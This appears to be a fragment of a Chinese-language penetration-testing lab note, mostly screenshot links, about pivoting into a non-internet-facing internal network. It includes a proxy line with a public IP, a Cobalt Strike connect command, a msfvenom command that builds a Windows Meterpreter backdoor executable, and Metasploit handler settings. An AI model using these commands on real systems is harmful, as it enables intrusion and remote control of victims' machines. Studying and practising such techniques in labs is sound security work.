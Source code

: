 [![ppvlfF1.png](https://s1.ax1x.com/2023/04/13/ppvlfF1.png)](https://imgse.com/i/ppvlfF1)

~~~
//用proxifier代理
129.226.92.29 1122
~~~

[![ppvlISK.png](https://s1.ax1x.com/2023/04/13/ppvlISK.png)](https://imgse.com/i/ppvlISK)

访问内网的192.168.52.110（不出网）

[![ppvl7Oe.png](https://s1.ax1x.com/2023/04/13/ppvl7Oe.png)](https://imgse.com/i/ppvl7Oe)



cs

~~~
~~~

[![ppvGXDS.png](https://s1.ax1x.com/2023/04/13/ppvGXDS.png)](https://imgse.com/i/ppvGXDS)









上线控制

cs

~~~
//已经建立隧道后，建立监听器 bind_tcp 50051
//放在win10上执行，本地在已出网的shell主机是192.168.52.143，在他的交互下执行
connect 192.168.52.110 50051
~~~

[![ppvJTZF.png](https://s1.ax1x.com/2023/04/13/ppvJTZF.png)](https://imgse.com/i/ppvJTZF)

同理，如果是多层代理，就相应的在这个win10上再开sock5

msf

~~~
//同理，生成本地后门
msfvenom -p windows/meterpreter/reverse_tcp lhost=127.0.0.1 lport=3333 -f exe -o xxx.exe

use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set lhost 192.168.52.110
set lport 3333
exploit
~~~



~~~
proxychains linux上的
~~~




